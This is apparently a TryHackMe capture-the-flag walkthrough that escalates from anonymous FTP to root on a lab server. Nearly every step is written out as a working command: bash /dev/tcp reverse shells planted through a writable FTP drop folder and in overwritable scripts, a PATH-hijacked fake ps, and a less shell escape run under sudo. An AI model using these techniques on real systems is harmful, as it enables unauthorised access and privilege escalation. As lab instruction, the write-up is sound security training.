

## Scenario

> You've discovered a misconfigured internal automation pipeline running on a Linux server. The system processes recon scripts, development backups, monitoring jobs, and deployment tasks across multiple users. Each stage of the pipeline relies too heavily on the previous one. By abusing these trust boundaries, you must move laterally through the system.
> 
> Your objective is to escalate from anonymous access all the way through:
> 
> recon_user → dev_user → monitor_user → ops_user → root

Access via: `10.112.170.69`

## Initial Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.112.170.69 -T4                                                                  

[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-15 13:20 +0200
Nmap scan report for 10.112.170.69
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 21.60 seconds
```

**Breakdown:**

- `sudo` runs the scan with root privileges
- `nmap` the port scanner
- `-p-` scans all 65535 TCP ports
- `10.112.170.69` the target IP
- `-T4` the "aggressive" timing template

Only two ports open. Followed up with a version/script scan against both:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p21,22 10.112.170.69 -sV -sC

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-15 13:21 +0200
Nmap scan report for 10.112.170.69
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:—REDACTED—
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 115      123          4096 Apr 30  2026 incoming [NSE: writeable]
|_drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 45:2b:59:04:c4:4c:52:1e:59:79:ad:39:fa:ab:96:43 (ECDSA)
|_  256 14:67:ec:82:cb:e0:54:ed:b8:91:5d:de:b3:1b:c2:19 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.07 seconds
```

**Breakdown:**

- `sudo nmap -p21,22 10.112.170.69` scans just the two open ports
- `-sV` service/version detection
- `-sC` default safe script set

The NSE scripts already flagged the key facts: `vsftpd 3.0.5` allows anonymous login, and `incoming/` is world-writable.

## Foothold via FTP — recon_user

Logged into FTP anonymously and had a look around. `incoming/` was empty and writable; `pub/` held a `README.txt` and an empty, writable `uploads/` subdirectory. Downloaded and read the README:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat README.txt                    

[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

So anything dropped in `incoming/` gets picked up and run automatically — a straightforward way onto the box. Built a reverse shell payload and set up a listener:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/4444 0>&1"' > revshell.sh 

┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444       

listening on [any] 4444 ...
```

**Breakdown:**

- `echo '...' > revshell.sh` writes a one-liner reverse shell into a local file: `bash -c "..."` runs the quoted command in a new bash process; `bash -i` starts an interactive bash; `>& /dev/tcp/—REDACTED—/4444` redirects both stdout and stderr into a TCP connection to the attacker's listener, which bash's built-in `/dev/tcp` pseudo-device opens; `0>&1` redirects stdin from the same connection, completing the two-way pipe
- `nc -lvnp 4444` starts a netcat listener: `-l` listen mode, `-v` verbose, `-n` skip DNS resolution, `-p 4444` the local port to listen on

Reconnected to the FTP session, navigated into `incoming/`, and uploaded the payload there, since that's the directory the README said gets processed automatically:

```shell
ftp> put revshell.sh 

local: revshell.sh remote: revshell.sh
229 Entering Extended Passive Mode (|||50773|)
150 Ok to send data.
226 Transfer complete.
55 bytes sent in 00:00 (0.77 KiB/s)
```

After waiting for the automated job to pick it up, the listener caught a connection:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444       

listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.170.69] 49514
bash: cannot set terminal process group (1551): Inappropriate ioctl for device
bash: no job control in this shell
recon_user@tryhackme-2404:~$ 
```

Stabilised the raw shell into something usable:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
recon_user@tryhackme-2404:~$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                                                                                            
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg 

[1]  + continued  nc -lvnp 4444

recon_user@tryhackme-2404:~$ export TERM=xterm-256color
recon_user@tryhackme-2404:~$ stty rows 52 cols 236
```

**Breakdown:**

- `python3 -c 'import pty; pty.spawn("/bin/bash")'` run inside the raw shell, spawns a proper pseudo-terminal bash, which enables job control, tab completion and command history
- `^Z` suspends the netcat listener process on the local (attacker) side, backgrounding it
- `stty raw -echo` puts the local terminal into raw mode and disables local echo, so keystrokes pass straight through to the remote shell instead of being processed or echoed twice
- `fg` resumes the backgrounded netcat process in the foreground, now that the local terminal is set up to work with it properly
- `export TERM=xterm-256color` sets the remote shell's `TERM` variable so terminal-aware programs behave correctly
- `stty rows 52 cols 236` tells the remote shell the local terminal's actual dimensions, so things like text wrapping and `clear` work as expected

This upgrade sequence is reused identically at each later stage of this lab, so it's only shown in full here.

### Question — What is the flag found in the recon_user's home directory?

```shell
recon_user@tryhackme-2404:~$ cat ~/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Lateral Movement to dev_user

`sudo -l` asked for a password that wasn't available, so that was a dead end. Checked group membership instead:

```shell
recon_user@tryhackme-2404:~$ id

uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```

`recon_user` turned out to be a member of the `dev_user` group — worth checking what that unlocks. Searched for files owned by `dev_user`:

```shell
recon_user@tryhackme-2404:~$ find / -user 'dev_user' -type f 2>/dev/null 

/tmp/recon_backup.tgz
/opt/dev/backup.sh
/opt/dev/bin/ps
^C/home/dev_user/flag.txt
/home/dev_user/.profile
/home/dev_user/.bashrc
/home/dev_user/.selected_editor
/home/dev_user/.bash_logout
```

**Breakdown:**

- `find / -user 'dev_user' -type f 2>/dev/null` searches the whole filesystem for regular files owned by `dev_user`, discarding permission-denied noise

Cut the search short with Ctrl+C once `/opt/dev/backup.sh` turned up, since that's exactly the kind of script-run-by-another-user setup this pipeline is built around. Checked its permissions:

```shell
recon_user@tryhackme-2404:~$ cd /opt/dev
recon_user@tryhackme-2404:/opt/dev$ ls -la

total 16
drwxrwxr-x 3 dev_user dev_user 4096 Jun  9 09:03 .
drwxr-xr-x 5 root     root     4096 Feb  2  2026 ..
-rwxrwxr-x 1 dev_user dev_user   60 Jun  9 09:03 backup.sh
drwxr-xr-x 2 dev_user dev_user 4096 Apr 26  2026 bin
```

`backup.sh` is group-writable, and `recon_user`'s shared `dev_user` group membership covers that. Overwrote it with a reverse shell and ran it directly:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4445        

listening on [any] 4445 ...
```

```shell
recon_user@tryhackme-2404:/opt/dev$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/4445 0>&1"' > backup.sh
recon_user@tryhackme-2404:/opt/dev$ ./backup.sh
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4445

listening on [any] 4445 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.170.69] 37778
bash: cannot set terminal process group (4339): Inappropriate ioctl for device
bash: no job control in this shell
dev_user@tryhackme-2404:~$ 
```

Stabilised the shell the same way as before.

### Question — What is the flag found in the dev_user's home directory?

```shell
dev_user@tryhackme-2404:~$ cat /home/dev_user/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Lateral Movement to monitor_user

Looked around `/opt/dev/bin`, the directory from the earlier `find`:

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ ls -la 

total 12
drwxr-xr-x 2 dev_user dev_user 4096 Apr 26  2026 .
drwxrwxr-x 3 dev_user dev_user 4096 Nov 15 11:40 ..
-rw-rw-r-- 1 dev_user dev_user   62 Apr 26  2026 ps
dev_user@tryhackme-2404:/opt/dev/bin$ file ps

ps: Bourne-Again shell script, ASCII text executable
dev_user@tryhackme-2404:/opt/dev/bin$ cat ps

#!/bin/bash
setsid bash -i >& /dev/tcp/10.82.84.138/5557 0>&1
```

A fake `ps` script was already sitting here, pointed at some unrelated IP — not useful directly, but a strong hint that something on this box calls `ps` without a full path and can be hijacked via `PATH`. Searched for files owned by `monitor_user` to find what that might be:

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ find / -type f -user 'monitor_user' -ls 2>/dev/null | grep -v proc

     4348      0 -rw-r--r--   1 monitor_user monitor_user        0 Nov 15 11:19 /sys/fs/cgroup/system.slice/healthcheck.service/memory.pressure
   546621      4 -rwxr-xr-x   1 monitor_user monitor_user       90 Feb  2  2026 /opt/app/deploy_helper.sh
      365      4 -rwxr-xr-x   1 monitor_user monitor_user       98 Apr 29  2026 /usr/local/bin/healthcheck
     1204     64 -rw-r--r--   1 monitor_user monitor_user    58124 Feb  2  2026 /var/log/monitor.log
```

**Breakdown:**

- `find / -type f -user 'monitor_user' -ls 2>/dev/null` same style of ownership search as before, with `-ls` for a detailed listing
- `| grep -v proc` filters out the noisy `/proc` entries that show up for the running `find` process itself

The cgroup path confirms there's a systemd service called `healthcheck.service` running as `monitor_user`. `/var/log/monitor.log` turned out to just be a huge dump of periodic `ps` output, so not worth reproducing here. The script itself was the interesting part:

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ cat /usr/local/bin/healthcheck

#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```

Same pattern as the decoy script found earlier: `ps` called with no full path. The plan was to plant a malicious `ps` somewhere ahead of the real one in `PATH`. First tried `/tmp`:

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ export PATH=/tmp:$PATH
dev_user@tryhackme-2404:/opt/dev/bin$ echo $PATH

/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Okay, I'm blind. `/tmp` isn't writable. Went with `/opt/dev/bin` instead, which `dev_user` already owns outright:

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ export PATH=/opt/dev/bin:$PATH
dev_user@tryhackme-2404:/opt/dev/bin$ echo $PATH

/opt/dev/bin:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
dev_user@tryhackme-2404:/opt/dev/bin$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/4447 0>&1"' > /opt/dev/bin/ps
dev_user@tryhackme-2404:/opt/dev/bin$ chmod 777 ps
```

**Breakdown:**

- `export PATH=/opt/dev/bin:$PATH` prepends `/opt/dev/bin` to `PATH`, ahead of the system directories where the real `ps` lives
- `echo '...' > /opt/dev/bin/ps` overwrites the existing decoy script with a reverse shell payload, reusing the same `/dev/tcp` one-liner as before
- `chmod 777 ps` makes it executable by anyone, since `healthcheck.service` runs as `monitor_user`, not `dev_user`

Set up a listener and triggered the script:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4447

listening on [any] 4447 ...
```

```shell
dev_user@tryhackme-2404:/opt/dev/bin$ /usr/local/bin/healthcheck
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4447

listening on [any] 4447 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.170.69] 53098
bash: cannot set terminal process group (603): Inappropriate ioctl for device
bash: no job control in this shell
monitor_user@tryhackme-2404:/$ 
```

The connection came back as `monitor_user`, matching the `healthcheck.service` account — confirming the script's `ps aux` call picked up the planted binary. Stabilised the shell the same way as before.

### Question — What is the flag found in the monitor_user's home directory?

```shell
monitor_user@tryhackme-2404:/$ cat ~/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Lateral Movement to ops_user

```shell
monitor_user@tryhackme-2404:/$ sudo -l

Matching Defaults entries for monitor_user on tryhackme-2404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=LESS

User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

**Breakdown:**

- `sudo -l` lists what the current user is permitted to run via `sudo`, and as which user. Here, `monitor_user` can run `/usr/local/bin/deploy.sh` as `ops_user`, with no password required

```shell
monitor_user@tryhackme-2404:/$ cat /usr/local/bin/deploy.sh

#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```

`deploy.sh` just `cd`s into `/opt/app` and runs `deploy_helper.sh` from there. Checked ownership of that directory:

```shell
monitor_user@tryhackme-2404:/opt/app$ ls -la

total 16
drwxr-xr-x 3 ops_user     ops_user     4096 Feb  2  2026 .
drwxr-xr-x 5 root         root         4096 Feb  2  2026 ..
drwxrwxr-x 2 monitor_user monitor_user 4096 Feb  2  2026 data
-rwxr-xr-x 1 monitor_user monitor_user   90 Feb  2  2026 deploy_helper.sh
```

`deploy_helper.sh` is owned outright by `monitor_user` — the current user — so it can be overwritten directly, no group tricks or `PATH` games needed this time:

```shell
monitor_user@tryhackme-2404:/opt/app$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/4448 0>&1"' > deploy_helper.sh
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4448 

listening on [any] 4448 ...
```

```shell
monitor_user@tryhackme-2404:/opt/app$ sudo -u ops_user /usr/local/bin/deploy.sh
```

**Breakdown:**

- `sudo -u ops_user /usr/local/bin/deploy.sh` runs the script as `ops_user`, as the `sudoers` entry permits, which in turn runs the replaced `deploy_helper.sh`

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4448

listening on [any] 4448 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.170.69] 42640
ops_user@tryhackme-2404:/opt/app$ 
```

This landed straight in a usable shell without the usual `bash: cannot set terminal process group` warning, so no stabilisation was needed this time.

### Question — What is the flag found in the ops_user's home directory?

```shell
ops_user@tryhackme-2404:/opt/app$ cat ~/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Privilege Escalation to root

```shell
ops_user@tryhackme-2404:/opt/app$ sudo -l

Matching Defaults entries for ops_user on tryhackme-2404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=LESS

User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```

`ops_user` can run `less` as root with no password — a well-known GTFOBins escalation, since `less` can drop into a shell from within its pager interface:



```shell
ops_user@tryhackme-2404:/opt/app$ sudo less /etc/hosts
```

**Breakdown:**

- `sudo less /etc/hosts` opens the file in `less`, running as root per the `sudoers` entry

Inside the `less` pager, typed `!/bin/sh` — `less` passes anything after `!` to the shell, and since `less` itself is running as root, that shell inherits root's privileges:

```shell
root@tryhackme-2404:/opt/app# 
```

### Question — What is the flag found in the root user's home directory?

```shell
root@tryhackme-2404:/opt/app# cat ~/flag.txt

—REDACTED—
```

**Answer:** `—REDACTED—`